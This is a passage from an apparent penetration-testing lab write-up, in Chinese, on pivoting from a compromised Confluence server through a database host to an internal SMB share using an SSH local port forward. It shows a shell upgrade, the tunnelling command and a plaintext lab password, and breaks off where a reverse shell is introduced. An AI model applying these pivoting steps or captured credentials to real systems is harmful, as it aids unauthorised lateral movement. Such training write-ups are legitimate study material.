#### 4. Download SMB Server file
##### 4.1 [方法 1] 使用內建工具傳回 CONFLUENCE01
內建工具： smbclient, smbget, mount.cifs, rpcclient 等等
##### 4.2 [方法 2] SSH local port forwarding
可以建立 SSH local port forwarding。將監聽 CONFLUENCE01 的 WAN interface 的 4455 port，並透過 SSH Tunnel 將封包從 PGDATABASE01 轉送出去並直接轉送到我們找到的 SMB 共用。然後我們可以直接從 Kali 機器連接到 CONFLUENCE01 上的監聽 port。

斷開 SSH，回到 CONFLUENCE01 建立 SSH local port forwarding：
```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
</bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'   
$ ssh -N -L 0.0.0.0:4455:172.16.147.217:445 database_admin@10.4.147.215
ssh -N -L 0.0.0.0:4455:172.16.147.217:445 database_admin@10.4.147.215
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.147.215 (10.4.147.215)' can't be established.
ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.147.215's password: sqlpass123

```
>`-N`：不執行命令，只建立 SSH Tunnel\
>`-L 0.0.0.0:4455:172.16.147.217:445`: local port 0.0.0.0:4455 → 轉發到 172.16.50.147:445（透過 PGDATABASE01 轉到 SMB Server)，`0.0.0.0` 讓為了讓 Kali 能直接存取這個 port。
>> SSH local port forwarding 已成功打通

#### 5. 驗證 SSH local port forwarding
再注入一個 reverse shell 驗證 port forwarding 是不是成功
```
┌──(chw㉿CHW)-[~]
